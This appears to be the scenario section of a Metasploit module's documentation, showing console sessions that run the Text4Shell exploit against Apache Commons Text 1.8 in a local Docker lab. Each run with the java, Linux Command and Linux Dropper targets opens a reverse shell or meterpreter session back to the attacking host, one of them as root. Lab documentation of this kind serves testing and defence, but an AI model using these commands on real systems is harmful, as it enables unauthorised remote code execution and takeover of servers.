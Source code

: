 ### Apache Commons Text 1.8 on Alpine Linux v3.9 JDK 8

Check:
```
msf > use exploit/multi/http/apache_commons_text4shell
[*] Using configured payload java/meterpreter/reverse_tcp
msf exploit(multi/http/apache_commons_text4shell) > set lhost docker0
lhost => 172.17.0.1
msf exploit(multi/http/apache_commons_text4shell) > set rhost 172.17.0.2
rhost => 172.17.0.2
msf exploit(multi/http/apache_commons_text4shell) > set rport 8080
rport => 8080
msf exploit(multi/http/apache_commons_text4shell) > set targeturi /text4shell/attack
targeturi => /text4shell/attack
msf exploit(multi/http/apache_commons_text4shell) > set param search
param => search
msf exploit(multi/http/apache_commons_text4shell) > check

[+] 172.17.0.2:8080 - The target is vulnerable. Successfully tested command injection.
```

Target: java
```
msf exploit(multi/http/apache_commons_text4shell) > set target 0
target => 0
msf exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Using URL: http://172.17.0.1:8080/cuGgfHN/
[*] Sending stage (57692 bytes) to 172.17.0.2
[*] Meterpreter session 16 opened (172.17.0.1:4444 -> 172.17.0.2:39832) at 2023-12-23 23:03:31 +0530
[*] Server stopped.

meterpreter >
```

Target: Linux Command
```
msf exploit(multi/http/apache_commons_text4shell) > set target 3
target => 3
msf exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Command shell session 17 opened (172.17.0.1:4444 -> 172.17.0.2:36446) at 2023-12-23 23:04:10 +0530

id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Target: Linux Dropper
```
msf exploit(multi/http/apache_commons_text4shell) > set target 4
target => 4
msf exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Using URL: http://172.17.0.1:8080/L8kRU1E8O/
[*] Client 172.17.0.2 requested /L8kRU1E8O/
[*] Sending payload to 172.17.0.2
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 18 opened (172.17.0.1:4444 -> 172.17.0.2:39580) at 2023-12-23 23:04:35 +0530
```